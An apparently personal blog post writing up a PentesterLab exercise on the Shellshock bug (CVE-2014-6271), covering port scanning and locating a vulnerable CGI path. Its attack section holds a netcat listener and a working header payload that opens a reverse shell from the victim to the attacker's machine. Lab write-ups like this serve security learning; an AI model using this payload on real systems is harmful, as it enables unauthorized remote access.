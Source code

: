 ```yaml
---
layout: post
title: "Pentesterlab--CVE-2014-6271/Shellshock"
date: 2016-03-25 15:40:03 -0400
comments: true
categories: [pentesterlab, cve-2014-6271, Shellshock]
---
```

This vulnerability impacts the Bourne Again Shell "Bash". Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface "CGI". 

Difficluty: 1/5
<!--more-->

###Forces:

* Nmap 
* Burp 
* Firebug 
* NC 


###Detail Assessment and Planning

* Port scan to identify opened ports, running services and services version. ----Nmap
* Identify vulnerability and path `/cgi-bin/status`. ----Burp, Firebug
* Exploit shellshock vuln get the reverse shell ---- NC

###Waging War

####Weaknesses and Strengths

Used Nmap to idenfity opened ports. TCP port 80 is opened and Apache service is running on it.

{% img  images/blog/pentesterlab/shellshock/shellshock1.png  [title manually exploit [alt text]] %}

By visiting the application with Burp, I can detect that multiple URL are accessed when the page is loaded:

{% img  images/blog/pentesterlab/shellshock/shellshock2.png  [title manually exploit [alt text]] %}

Also by using Firebug, I can identify that CGI page which call system command `/cgi-bin/status`

{% img  images/blog/pentesterlab/shellshock/shellshock3.png  [title manually exploit [alt text]] %}


####Attack

#####Reverse Shell

`# nc -l -p 443`

{% img  images/blog/pentesterlab/shellshock/shellshock6.png  [title manually exploit [alt text]] %}


`echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.79.156 443 -e /bin/sh\r\nHost: 192.168.79.164\r\nConnection: close\r\n\r\n" | nc 192.168.79.164 80`

192.168.79.156 is the attacker's machine and 192.168.79.164 is victim machine.


{% img  images/blog/pentesterlab/shellshock/game_over.jpg [title manually exploit [alt text]] %}





